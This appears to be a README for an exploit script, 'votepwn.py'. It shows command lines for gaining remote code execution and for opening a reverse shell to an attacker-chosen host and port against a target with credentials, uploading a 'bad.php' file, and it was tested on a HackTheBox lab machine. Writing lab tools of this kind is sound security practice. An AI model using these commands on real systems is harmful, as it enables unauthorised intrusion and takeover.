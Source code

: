 ## Usage
- Remote code execution
```bash
python3 votepwn.py -rce <ip> -u <username> -p <password> 
```
- Reverse shell
```bash
python3 votepwn.py -rs <ip> -u <username> -p <password> -lh <lhost> -lp <lport>
```
**Notes:**

Filename is 'bad.php' by default, can be changed with -file/--filename <name>

Listen port is 4444 by default

## Testing
These tests were made in HackTheBox - Love (Easy) 
- **Remote code execution**  

![A gif goes here](https://media.giphy.com/media/D5lnkh2ImOIQVjluM1/giphy.gif)
- **Reverse shell**  

![A gif goes here](https://media.giphy.com/media/YcJUBgmKhPD4mvM2HK/giphy.gif)
